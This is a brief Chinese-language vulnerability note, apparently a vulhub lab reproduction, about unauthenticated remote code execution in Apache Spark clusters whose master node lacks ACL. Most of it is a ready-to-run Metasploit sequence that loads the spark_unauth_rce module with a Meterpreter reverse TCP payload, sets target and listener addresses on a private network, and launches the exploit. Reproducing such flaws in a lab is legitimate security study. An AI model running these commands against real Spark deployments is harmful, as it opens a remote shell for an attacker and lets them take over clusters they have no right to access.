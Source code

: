 ## 漏洞概述

如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

## 漏洞利用

```bash
use exploit/linux/http/spark_unauth_rce
set payload java/meterpreter/reverse_tcp
set rhost 192.168.226.140
set rport 6066

set lhost 192.168.226.134
set lport 4444
set srvhost 192.168.226.134
set srvport 8080
exploit
```

## 参考链接

https://github.com/vulhub/vulhub/blob/master/spark/unacc/README.md
